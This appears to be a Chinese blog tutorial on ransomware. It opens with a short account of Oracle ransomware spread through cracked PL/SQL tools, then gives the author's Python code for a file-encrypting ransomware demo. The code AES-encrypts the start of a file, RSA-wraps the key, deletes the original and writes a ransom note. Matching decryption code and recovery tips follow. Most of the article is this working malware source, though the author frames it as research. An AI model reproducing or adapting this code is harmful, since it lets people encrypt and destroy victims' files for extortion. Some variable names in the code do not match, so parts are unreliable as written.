

### 杂谈

在前一阵子，领导突然和我说起oracle勒索病毒，好像是有一家医院遭到了黑客的勒索攻击。

oracle勒索病毒就简单的介绍一下，一般是由于下载使用了破解版的PL/SQL导致的。该软件中自带一个AfterConnect.sql自动执行脚本，伪装成官方程序。当发生连接后会自动创建4个存储过程和3个触发器。当你的数据库满足其中触发器的条件，触发器就会调用存储过程对你的数据进行加密备份并删除原表。然后黑客就会留下联系方式对你进行勒索。

上面简单介绍了下oracle勒索病毒。但是这篇文章的重点不是这个，而是另一种通过RSA+AES加密你的文件，对你进行勒索。

那接下来我就来介绍一下我用Python实现对文件的加密解密还原勒索的过程。

### 准备工作

首先是准备Python环境，这边就不赘述了。

这时候我们需要pycrypto模块。pycrypto模块是python中用来处理加密解密等信息安全相关的一个很重要模块。

```
pip install pycrypto
```

可能会提示没有对应vs，下载安装Python 2.7 : Microsoft Visual C++ Compiler for Python 2.7 (网址：aka.ms/vcpython27)

我们运用到该模块的对称加密算法AES，公钥加密算法RSA。

### 实现原理

对文件进行加密勒索，我们是先使用对称密钥对文件前面部分字节进行加密，然后再用RSA算法生成的公钥对对称密钥进行加密。（这边的过程有点像HTTPS的交互过程）然后文件加密后的内容、加密的对称密钥以及未被加密的内容组成新的文件，删除原文件。这时候就会发现加密后的文件已经打不开了，只能够通过RSA生成的私钥进行解密重组才能看到原来的内容。而私钥是留在黑客手中的，这时候就已经被黑客给勒索了。



### 实现过程

#### 加密过程

- 生成RSA密钥对，并把公钥和私钥写到对应文件中

```
rsa=RSA.generate(1024)
#生成私钥
private_pem = rsa.exportKey()
with open('C:\Users\\fandashen\Desktop\\attacker\master-private.pem', 'w') as f:
    f.write(private_pem)
#生成公钥    
public_pem = rsa.publickey().exportKey()
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\master-public.pem', 'w') as f:
    f.write(public_pem)
```

- 随机生成一个十六位密钥

```
 field=string.letters+string.digits #构建所有大小写字母和数字的字符集
 Dkey=''.join(random.sample(field,16))
```

- 使用AES加密算法对文件进行加密

```
f1=open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png','rb') #二进制格式读取需要加密的文件
all = f1.read()
t1=all[0:16] #取出前16位字符给t1
t2=all[16:] #不加密的文件内容
f1.close()

cryptor = AES.new(Dkey, AES.MODE_CBC, Dkey)
length = 16
count = len(t1)
if(count % length != 0) :
    add = length - (count % length)
else:
    add = 0
t1 = t1 + ('\0' * add) #加密函数，如果t1不是16的倍数【加密文本text必须为16的倍数！】，那就补足为16的倍数
entext = b2a_hex(cryptor.encrypt(t1)) #加密的文件内容
#AES加密时候得到的字符串不一定是ascii字符集的
#统一把加密后的字符串转化为16进制字符串
```

- 用公钥对AES的对称密钥进行加密

```
rsakey = RSA.importKey(public_pem) #读取到公钥
cipher = Cipher_pkcs1_v1_5.new(rsakey) #生成对象
cipher_text = base64.b64encode(cipher.encrypt(Dkey)) #加密的对称密钥
#进行加密，由于单使用RSA加密生成的字符串有乱码，再使用base64进行一次加密
```

- 将之前加密的文件内容，加密的对称密钥及未被加密的内容，重写成一个文件，并删除原文件，留下勒索提示文件，我们的加密过程就完成了

```
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943_en.NONO','wb') as f:
    f.write(entxt+cipher_text+t2)
#删除原文件    if(os.path.exists('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png')):
    os.remove('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png')
#联系途径
with codecs.open('C:\Users\\fandashen\Desktop\\ransom\\attack\\readme.txt','w','utf-8') as f:
    f.write(u'你的文件已经被我加密了，请联系我的邮箱abc@123.com，支付相应费用来获取解密途径！')
```

此时我们电脑桌原来的文件1548138662943.png被我文加密成1548138662943_en.NONO，且已经无法打开。

#### 解密过程

- 首先需要以二进制方式读取被加密的文件，根据加密字段长度，将文件分成三部分。第一部分是AES加密过的文件内容，第二部分是公钥加密过的对称密钥，第三部分是未加密过的内容。

```
f1=open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943_en.NONO','rb')
all = f1.read()
t1=all[0:32]
t2=all[32:204]
t3=all[204:]
f1.close()
```

- 然后就需要通过黑客将私钥拿到，对对称密钥进行解密。

```
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\master-private.pem') as f:
    key = f.read()
    rsakey = RSA.importKey(key) #读取到私钥
    cipher = Cipher_pkcs1_v1_5.new(rsakey) #生成对象
    Dkey = cipher.decrypt(base64.b64decode(t2),'ERROR') #解密得到对称密钥
```

- 再通过对称密钥对加密过的文件内容进行解密，得到原来的文件内容

```
cryptor = AES.new(Dkey, AES.MODE_CBC, Dkey)
detext = cryptor.decrypt(a2b_hex(text)).rstrip('\0') #去掉末尾补足符
```

- 将解密后的文件内容和未加密的文件内容，重写到新的文件中，恢复文件名。文件就能够可以打开，且与内容与原文件一样。

```
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png','wb') as f:
    f.write(detxt+t3)
```

再来就是把除了原文件其他生成的文件删除就可以了。


**这样一样，就完成了文件的加密解密过程。**


### 解决办法

想直接解密文件内容基本不可能。

病毒使用的加密方案都是目前成熟的解决方案，只要实现没有明显漏洞，就不可能被破解，实际上常见的勒索病毒目前都没有被破解。

但是要找回文件可以从两个方面入手：

- 病毒删除文件后往往没有对原文件进行覆盖操作，使用数据恢复软件或者找专门的数据恢复机构有一定几率能找回原文件。目前很多宣称能找回WannaCry病毒加密文件的工具都是这种方式。

- 随机数产生器可能存在漏洞，在产生随机数后随机数会被保留在内存中，于是可以通过读取内存的方式将里面的随机数读出来，从而获得会话私钥，解密文件。这个方法只对使用系统随机生产生器的病毒有效，而且对系统版本有要求，中毒后机器也不能重启过。


附上源码：

[RSA+AES_encrypt.py](https://github.com/leadsino/fanzhenlong/blob/master/%E5%8B%92%E7%B4%A2%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6/RSA%2BAES_encrypt.py)

[RSA+AES_decrypt.py](https://github.com/leadsino/fanzhenlong/blob/master/%E5%8B%92%E7%B4%A2%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6/RSA%2BAES_decrypt.py) 
​      